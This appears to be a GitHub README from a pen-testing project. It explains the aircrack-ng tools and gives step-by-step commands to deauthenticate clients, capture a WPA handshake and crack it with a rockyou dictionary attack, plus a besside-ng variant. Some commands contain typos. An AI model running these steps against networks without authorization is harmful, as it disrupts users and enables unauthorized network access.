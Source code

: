 # Aircrack-ng Suite

Aircrack-ng is an open source tool for cracking and securing wireless network.  It is all in one suite allows you to keep an eye on WiFi security, and capture data packets. WiFi cards can be captured and injected to test their performance. It can also be used by pen testers to attack and crack the WPA and WEP protocols.

It mainly focuses on four areas of wifi security:

-  **Monitoring:** Data is captured in packets and exported to text files for processing by third-party software.

-  **Attacking:**  Packet injection can be used to perform replay attacks, deauthentication, and create bogus access points, among other things.

-  **Testing:** Testing the capabilities of WiFi cards and drivers

-  **Cracking:** WEP and WPA1/WPA2 PSK.

There are several aircrack-ng modes (Click here to view) but we are using only the following modes.

- [Airmon-ng:](https://www.aircrack-ng.org/doku.php?id=airmon-ng)  It's used to switch between monitor and managed modes. The status of the interfaces can be viewed by running the airmon-ng command without any parameters. It can also list and kill programmes that may cause the wireless card to malfunction.
- [Airodump-ng:](https://www.aircrack-ng.org/doku.php?id=airodump-ng): Airdump-ng is a tool that lists all of the networks in our immediate vicinity and displays relevant information about them. It's a packet sniffer, which means it's meant to capture all of the packets that pass across our network when we're in Monitor mode. We may run it against all of the networks to gather relevant information such as the mac address, channel name, encryption type, and number of clients connected to the network, and then begin targeting the target network. We can also use it against a specific AP (access point) to collect only packets from a specific Wi-Fi network.

- [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng): Aireplay-ng is a programme that generates unnecessary wireless traffic. It can hack WEP and WPA keys when combined with aircrack-ng. It's function is to insert frames. aireplay-ng has the ability to perform a variety of powerful strikes, including the creation and capture of new IVs. [Here](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) are some other forms of attacks:

- [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng): It is the best of both worlds. It automatically cracks WEP and WPA network. Note Wesside-ng supports only WEP but Besside-ng can support both WEP and WPA network.Besside-ng has the capability to crack all the associated WEP networks and log the WPA handshakes. And WPA handshakes can then be cracked using aircrack-ng. It is a combination of easside-ng and wesside-ng. 
	- [Easside-ng:](https://www.aircrack-ng.org/doku.php?id=easside-ng)
Easside-ng is a tool which allows to communicate via an WEP-encrypted access point (AP) without knowing the WEP key. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme and then setup a TAP interface so that one can communicate with the AP without requiring the WEP key. All this is done automatically.
	- [Wesside-ng:](https://www.aircrack-ng.org/doku.php?id=wesside-ng)
Wesside-ng is a tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme, reinject ARP requests and finally determine the WEP key. All this is done automatically.

## Pre-requisites:

- **Software:** We are using Kali Linux through VMware.

- **Hardware:** Wifi adaptor is necessary to inject packets and attack Wifi. Our laptop only has only inbuilt wifi adapter, which is insufficient. To put it another way, we require a wireless adapter that supports monitor mode and packet injection. [Here](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html) is a list of compatible adapters for pen testing.

The chipset we have is the TP-LINK TL-WN722N.


<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/tplink.jpg" width="300" height="300"></p>

However, according to the list of compatible adaptors, Version 1 is the only version that is compatible, yet we received Version 3. To enable the monitor mode in V3, we followed a few steps. [Click here to view the steps](https://github.com/megha-511/Aircrack-ng/blob/8083e818320b3b7c8485f83ef2c2c9ac05138571/Enable%20monitoring%20mode%20in%20V2_3.docx)

## 1. Crack WPA

1. 

    sudo airmon-ng wlan0
    
    iwconfig

This should show wlan0 in monitor mode.

2.

Sudo airmon-ng

Wlan0 must be changed to wlan0mon by now if not follow the steps below: ([Source)](https://www.reddit.com/r/Kalilinux/comments/nm14i5/my_wlan0_doesnt_change_to_wlan0mon_but_it_shows/)

`sudo airmon-ng stop wlan0`

`sudo Systemctl disable NetworkManager`

`sudo ip link set wlan0 down`

`sudo ip link set wlan0 name wlan0mon`

`sudo systemctl enable NetworkManager`

Now check for iwconfig it should show up wlan0mon.

3. To get the bssid of the target network and channel number: `sudo airodump wlan0mon`

4. `sudo airodump wlan0mon -d <target bssid>`

5. Wait until some connections are found

6. `sudo airodump -w wifiHack1 -c <channel_number> --bssid <target bssid> wlanomon`

  - w : write to wifiHack1 file which is used to store the 4 way handshake

7. In a separate window let’s deauthenticate all the users. When they connect back we can capture the handshake. `sudo aireplay –deauth 0 -a <bssid> wlan0mon`

8. Until new client joins the network please wait. You can see handshake on the top right corner of the screen where you hit airodump query.

9. Once handshake is captured, perform following tasks to do dictionary attack on the capture file to retrieve the wifi password.

-

sudo airmon-ng stop wlan0mon

sudo aircrack-ng wifiHack1-01.cap -w /usr/share/wordlists/rockyou.txt

That’s it! The wifi password will be cracked if it is common and simple by using dictionary attack. For complex passwords we need a strong GPU processor to crack it.

## 2. besside-ng

- How besside works?
<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/How%20besside-ng%20works.jpg" width="300" height="300"></p>

- We have followed the below steps to auto capture the WPA handshake and crack using aircrack-ng:

1.  `sudo airmon-ng start wlan0mon`

2. Capture the bssid of the target network: `sudo airodump-ng wlan0mon`

3. `sudo airodump -w bessideHack -c <channel number> -d <bssid of the target> wlan0mon`

4. To autogenerate the capture file called wpa.cap: `sudo besside-ng -b <bssid>  wlan0mon`

- There is a small problem with besside as it creates malformed packets and no management frames. There is a work around for this,  we need to merge the capture files generated by airodump and the besside. [Source](https://security.stackexchange.com/questions/121636/missing-essid-from-aircrack-ng)

- `Mergecap -w merged.cap bessideHack.cap wpa.cap`

- `Wireshark merged.cap`

- Open .cap file with Wireshark: `wireshark wpa.cap`

- Right-click on the malformed packet and choose “Ignore”

- File -> Export Specified Packets

- Select “Remove Ignored Packets”

- Save the file as wpa1.pcap

6. `sudo aircrack-ng wpa1.pcap -w /usr/share/wordlists/rockyou.txt`

## Additional resources:
Frame injection: [Github](https://github.com/aircrack-ng/rtl8188eus)
[Frame Vs Packet](https://www.networkworld.com/article/3225865/ethernet-frames-and-packets-whats-the-difference.html)
Fragment and Forge: Breaking Wi-Fi Through Frame Aggregation and Fragmentation[usenix2021.pdf (mathyvanhoef.com)](https://papers.mathyvanhoef.com/usenix2021.pdf)
[4-way Handshake attack](https://netbeez.net/blog/secure-network-4-way-handshake/#:~:text=The%204-Way%20Handshake%20utilizes,Handshake%20occurs%20after%20EAP%20authentication.)
